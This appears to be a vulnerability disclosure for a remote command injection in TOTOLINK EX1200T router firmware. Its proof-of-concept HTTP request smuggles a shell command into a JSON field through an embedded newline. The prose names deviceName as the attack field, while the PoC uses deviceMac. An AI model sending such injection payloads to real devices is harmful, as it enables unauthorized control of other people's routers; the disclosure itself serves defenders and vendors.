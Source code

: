 # TOTOLINK EX1200T RCE

## Remote Command Injection Vulnerability Description

PRODUCT: TOTOLINK EX1200T V4.1.2cu.5215 (latest version)

There is a remote command injection in the function `setDeviceMac` of the file `global.so` , we can control the`deviceName` to attack.

![image-20211021181431139](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211021181431139.png)

## PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
If-Modified-Since: Thu, 01 Jan 1970 00:00:03 GMT
Connection: close
Content-Length: 68

{"topicurl":"setting/setDeviceName",
"deviceMac":"1'\nps>/web_cste/test1\n'",
"deviceName":"1"}
```

![image-20211019162919271](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211019162919271.png)

